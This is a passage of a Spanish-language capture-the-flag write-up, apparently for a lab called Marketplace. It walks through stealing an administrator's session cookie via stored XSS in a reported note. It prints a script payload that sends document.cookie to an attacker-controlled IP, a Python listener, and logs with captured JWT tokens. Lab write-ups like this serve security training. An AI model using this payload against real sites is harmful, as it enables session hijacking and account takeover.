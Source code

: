 Al momento de reportar la consulta nos dice que un administrador la va a revisar.
![](/assets/img/market/exp.png)

Entonces como el campo del cual tenemos control es vulnerable a xss podemos hacer un *Cookie Hijacking* para robarle la cookie al administrador que por detras este revisando nuestro reporte.

Usare el siguiente payload
```bash
<script>document.write('<img src="http://10.8.47.45/cookie?' + document.cookie + '">')</script>
```
Agregamos una nota con esta informacion.
![](/assets/img/market/coo.png)

Tenemos que ponernos en escucha por lo el puerto que le indiquemos.

Enviemos la consulta y posteriormente tenemos que reportarla.

Por debajo nos llega las dos solicitudes la primera que es nuestra cookie y la segunda con la cookie del administrador que esta revisando esto por detras.

```bash
❯ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.8.47.45 - - [15/Mar/2023 14:59:36] code 404, message File not found
10.8.47.45 - - [15/Mar/2023 14:59:36] "GET /cookie?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjQsInVzZXJuYW1lIjoiYWRtaW4iLCJhZG1pbiI6ZmFsc2UsImlhdCI6MTY3ODkwOTQ2M30.x1beuM-VsjOR3qyyN1m0ot2grGM9ksFlzlaLGgUT_3w HTTP/1.1" 404 -
10.10.113.110 - - [15/Mar/2023 14:59:52] code 404, message File not found
10.10.113.110 - - [15/Mar/2023 14:59:52] "GET /cookie?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2Nzg5MTA1NDZ9._bn0r86GO904MK9PZ6Y6Guu3dcQJUBNsBhDr_LChNUQ HTTP/1.1" 404 -
```
